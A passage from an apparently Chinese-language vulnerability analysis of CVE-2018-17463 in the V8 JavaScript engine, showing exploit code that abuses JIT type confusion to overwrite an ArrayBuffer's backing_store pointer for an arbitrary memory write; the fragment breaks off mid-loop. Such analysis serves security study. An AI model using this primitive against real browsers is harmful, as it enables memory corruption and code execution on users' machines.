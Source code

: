 ![image-20200805113843250](..\image\2020-07-28-CVE-2018-17463-IR优化漏洞分析\6.png)

覆盖ArrayBuffer->backing_store指针的代码如下：

```javascript
var data_buf = new ArrayBuffer(0x200);
var data_view = new DataView(data_buf);

function write_databuf(addr)
{
	eval(`
		function hax(o, addr){
			o.a;
			this.Object.create(o);
			o.p${p1}.x2 = addr; // 将目标地址覆盖ArrayBuffer->backing_store指针
			return o.p${p1}.x1; // 返回o.p1.x1 用于判断是否此时漏洞已经触发，这样才能保证o.p1.x2此时对应着data_buf->backing_store
			
		}

	`);
	let p_Values = [];
	p_Values[p1] = {x1:23.33, x2: 33.44};
	p_Values[p2] = data_buf;
	
	for(let i=0; i < 10000; i++){
		p_Values[p1] = {x1:23.33, x2: 33.44};
		let objs = makeObj(p_Values);
		let x1 = hax(objs, i2f(addr));
		if(x1 !== 23.33){
			return;
		}
```